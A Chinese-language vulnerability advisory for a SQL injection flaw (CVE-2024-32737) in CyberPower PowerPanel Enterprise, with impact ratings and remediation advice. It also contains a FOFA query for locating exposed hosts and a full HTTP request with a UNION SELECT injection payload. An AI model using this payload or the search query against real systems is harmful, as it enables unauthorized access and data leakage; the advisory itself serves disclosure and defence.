

# CyberPower PowerPanel Enterprise 存在SQL注入漏洞（CVE-2024-32737） 

# 漏洞描述

CyberPower PowerPanelEnterprise 存在SQL注入漏洞，未经身份验证的远程攻击者可以通过 MCUDBHelper 中的 query_contract_result 函数执行SQL 注入攻击，从而泄露敏感信息。

# 影响版本

CyberPower PowerPanel Enterprise < v2.8.3

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="<title>PDNU</title>"

POC/EXP：

GET /api/v1/confup?mode=lean&uid=1%27%20UNION%20SELECT%201,2,3,%27SQL%20Injection%20Test%27;-- HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36

# 修复方案

关闭互联网暴露面或接口设置访问权限。

使用参数化查询或预编译语句，避免直接拼接用户输入的数据到SQL查询语句中。通过使用参数化查询或预编译语句，确保用户输入的数据不被直接解释为SQL代码。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
